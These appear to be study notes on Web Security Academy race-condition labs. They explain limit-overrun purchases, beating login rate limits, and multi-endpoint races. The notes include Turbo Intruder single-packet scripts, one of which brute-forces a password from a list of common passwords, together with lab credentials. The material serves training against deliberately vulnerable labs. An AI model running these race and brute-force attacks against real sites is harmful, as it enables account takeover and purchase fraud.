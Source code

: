 ### Lab: Limit overrun race conditions

This lab's purchasing flow contains a race condition that enables you to purchase items for an unintended price.

To solve the lab, successfully purchase a Lightweight L33t Leather Jacket.

You can log in to your account with the following credentials: wiener:peter. 

## Detecting and exploiting limit overrun race conditions with Turbo Intruder

To use the single-packet attack in Turbo Intruder:

-    Ensure that the target supports HTTP/2. The single-packet attack is incompatible with HTTP/1.
-    Set the `engine=Engine.BURP2` and `concurrentConnections=1` configuration options for the request engine.
-    When queueing your requests, group them by assigning them to a named gate using the gate argument for the `engine.queue()` method.
-    To send all of the requests in a given group, open the respective gate with the `engine.openGate()` method.

```py
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                            concurrentConnections=1,
                            engine=Engine.BURP2
                            )
    
    # queue 20 requests in gate '1'
    for i in range(20):
        engine.queue(target.req, gate='1')
    
    # send all requests in gate '1' in parallel
    engine.openGate('1')
```        

For more details, see the `race-single-packet-attack.py` template provided in Turbo Intruder's default examples directory.

### Lab: Bypassing rate limits via race conditions

This lab's login mechanism uses rate limiting to defend against brute-force attacks. However, this can be bypassed due to a race condition.

To solve the lab:

-    Work out how to exploit the race condition to bypass the rate limit.
-    Successfully brute-force the password for the user carlos.
-    Log in and access the admin panel.
-    Delete the user carlos.

You can log in to your account with the following credentials: wiener:peter. 
> 123123
abc123
football
monkey
letmein
shadow
master
666666
qwertyuiop
123321
mustang
123456
password
12345678
qwerty
123456789
12345
1234
111111
1234567
dragon
1234567890
michael
x654321
superman
1qaz2wsx
baseball
7777777
121212
000000

Turbo Intruder script:
```py
def queueRequests(target, wordlists):

    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    
    # assign the list of candidate passwords from your clipboard
    passwords = wordlists.clipboard
    
    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='1')
    
    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)
```
The table give us the password

![alt text](image-13.png)
## Multi-endpoint race conditions

Perhaps the most intuitive form of these race conditions are those that involve sending requests to multiple endpoints at the same time.

Think about the classic logic flaw in online stores where you add an item to your basket or cart, pay for it, then add more items to the cart before force-browsing to the order confirmation page.

A variation of this vulnerability can occur when payment validation and order confirmation are performed during the processing of a single request. The state machine for the order status might look something like this:

![alt text](image-12.png)

In this case, you can potentially add more items to your basket during the race window between when the payment is validated and when the order is finally confirmed.
